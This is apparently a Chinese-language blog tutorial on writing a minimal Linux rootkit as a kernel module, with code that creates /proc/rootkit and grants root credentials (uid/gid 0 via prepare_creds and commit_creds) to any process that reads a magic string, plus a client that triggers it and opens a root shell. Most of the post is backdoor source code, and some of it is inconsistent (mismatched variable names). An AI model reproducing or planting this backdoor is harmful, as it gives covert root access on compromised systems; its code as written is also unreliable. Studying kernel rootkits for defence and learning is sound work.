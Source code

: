 ```yaml
---
title: 编写Linux rootkit - 1
date: 2018-03-23
tag: Bin
layout: post
---
```


Linux rootkit是非常有趣的内核模块练习.如果做个比喻的话,rootkit就是内核级别的Hook程序.

这一次实现的是最简单的部分,我们直接创建一个新的proc文件,并使用proc文件的read方法传递命令.

本次实现的命令为获取root权限.

## 头文件

我们需要在client程序中引用rootkit程序中的一些参数,比如proc文件的名称,rootkit中设定的命令名称等.虽然可以写死在程序中,但是会给后续的修改带来麻烦.

因为功能很简单,我们只需要添加proc文件名称和getRoot的命令名称.

``` c
static char procfile[] = "rootkit";
static char get_root[] = "getroot";
```

## 创建proc文件

接下来的内核模块主体分为两部分: 创建proc文件, 实现根据参数执行命令的read方法.

在Linux 4.X的内核版本上,这两部分与以往相比都有变化.先说proc文件.

在3.X之前,创建proc文件是通过下面的函数进行的:

``` c
struct proc_dir_entry *create_proc_read_entry(const char *name,
                                        mode_t mode, struct proc_dir_entry *base,
                                        read_proc_t *read_proc, void *data);

typedef int (*read_proc_t)(char *page, char **start, off_t offset, int count,
                        int *eof, void *data);
```

但是这个函数在4.X的版本中已经被废弃了.我们不能简单的书写一个`read_proc_t`函数,然后传递给create参数.

目前创建proc文件使用的函数如下:

```
struct proc_dir_entry *proc_create(const char *name, umode_t mode,
                            struct proc_dir_entry *parent,
                            const struct file_operations *proc_fops);
```

可以发现,现在的proc文件使用的是更加通用的`file_operations`结构.这个结构用于各种文件操作相关的函数,比如设备读写等等.我们需要自己填充一个`file_operations`结构.这个结构体中的内容非常多,除了最基本本的open,read,write之外,还包括读写位置相关操作,目录操作,阻塞标志位等.

对于我们而言,只需要关心其中的read和write方法.

``` c
ssize_t (*read)(struct file *filp, char __user *buff,
            size_t count, loff_t *offp);
ssize_t (*write)(struct file *filp, const char __user *buff,
            size_t count, loff_t *offp);
```

open方法在fops中不是必须实现的.如果没有实现open(也就是open的指针值为NULL)方法,那么每次打开文件一定会成功.

方法的具体实现在下面.现在我们可以填充`file_operations`了:

``` c
static struct file_operations proc_fops = {
    .owner = THIS_MODULE,
    .read = read_fops,
};
```

因为我使用read方法传递命令,所以并没有实现write方法.

获得了fops结构,剩下的就是创建proc文件了:

``` c
proc_create(procfile, 0, NULL, &proc_fops);
```

procfile变量在头文件中定义为rootkit.这样我们便在`/proc`目录下创建了文件rootkit.

## read方法与权限提升

这一次实现的rootkit函数只有getRoot,也就是权限提升.我们在read方法中判断要执行的命令,并且完成相应的功能.

先来说一下权限提升.

在内核最开始的版本中,进程权限是写在进程对应的task结构中的,与uid,gid对应的也仅仅是简单的整数类型.

后来的变更中,整个权限部分被移植到了cred结构中,task中只保留了指向对应cred的指针.但是对于uid和gid来说,他们仍然是简单的整数类型,直接被保存在cred结构中.

对于uid和gid,数值0代表了root权限.于是我们只需要`cred->uid = cred->gid = 0`即可完成权限提升.

但是现在cred中的uid和gid是这样的:

``` c
struct cred{
    ...
    kuid_t uid;
    kgid_t gid;
    kuid_t suid;
    kgid_t sgid;
    kuid_t euid;
    kgid_t egid;
    ...
}

这一次他们的类型在也不是整数了.我们展开`kuid_t`和`kgid_t`:

``` c
typedef struct {
    uid_t val;
} kuid_t;

typedef struct {
    gid_t val;
} kgid_t;
```

`uid_t`和`gid_t`仍然是整数类型.而且在内存中,单元素的结构体和一个变量本身相同,所以这只是简单的封装而已.

但是我们不能在获得一个新的cred后简单的使用`cred->uid = 0`来设定root权限了.对于`kuid_t`和`kgid_t`结构,我们可以使用下面的宏:

``` c
#define KUIDT_INIT(value) (kuid_t){ value }
#define KGIDT_INIT(value) (kgid_t){ value }
```

这同样是简单的封装,但是比手写结构体要清晰的多.这一组定义都包含在头文件`<linux/uidgid.h>`中,因为他们已经在`cred.h`中被包含了,我们无需重复include.

了解了新的root权限设定方式,我们可以完成我们的read方法了:

``` c
static ssize_t read_fops(struct file *filp, char __user *buff,
                    size_t count, loff_t *offp)
{
    check_command(buff);

    return count;
}

static int check_command(const char __user *buff){
    // get privileges
    if(!strcmp(buff, password)){
        struct cred *new_cred = prepare_creds();
        new_cred->uid = KUIDT_INIT(0);
        new_cred->gid = KGIDT_INIT(0);
        new_cred->euid = KUIDT_INIT(0);
        new_cred->egid = KGIDT_INIT(0);
        commit_creds(new_cred);
    }
    else{
        return 0;
    }

    return 1;
}
```

因为什么都没有,所以read方法在最后只需要简单的返回一个count就可以了.我们使用`prepare_creds`来获取一个新的cred.这个新的cred继承自当前进程的cred,所以我们需要使用上面的宏将其uid和gid设定为0,也就是root权限.最后,使用`commit_creds`覆盖旧的cred即可完成权限提升.

这其实没有什么用处.虽然模块运行在root权限,可以在进程上下文中为所欲为,但是安装内核模块同样需要root权限.也就是说,我们需要用root权限来完成提权.这和sudo有什么区别呢?

## client程序

我们需要编写客户端程序来执行rootkit的命令.

``` c
char proc_file[64];

sprintf(proc_file, "/proc/%s", procfile);

int fd = open(proc_file, O_RDONLY);

read(fd, get_root, strlen(password));

system("/bin/bash");
```

除了上面的几句之外,我们还可以对fd进行检查,甚至安全的拷贝我们的`proc_file`数组.

编译我们的模块和客户端程序,使用insmod装载,执行客户端程序,我们便完成了权限提升.

## 总结

阅读内核源代码是解决问题的最好方案.

创建proc文件方式的变动让我不得不了解fops结构体.但是fops结构体的open方法让人困惑,直到我在书中的其他部分知道了这并不是必要的.

关于cred则十分有趣.因为我们编写的是内核模块,所以为了通过编译不得不再次翻阅源码来找到正确的uid设定方式.但是它在内存中仍旧只是一个整数长度,漏洞攻击时对此无需理会.

网络上关于内核的文章总是跟不上内核更新的进度.手握源码,才能了解一切(笑).



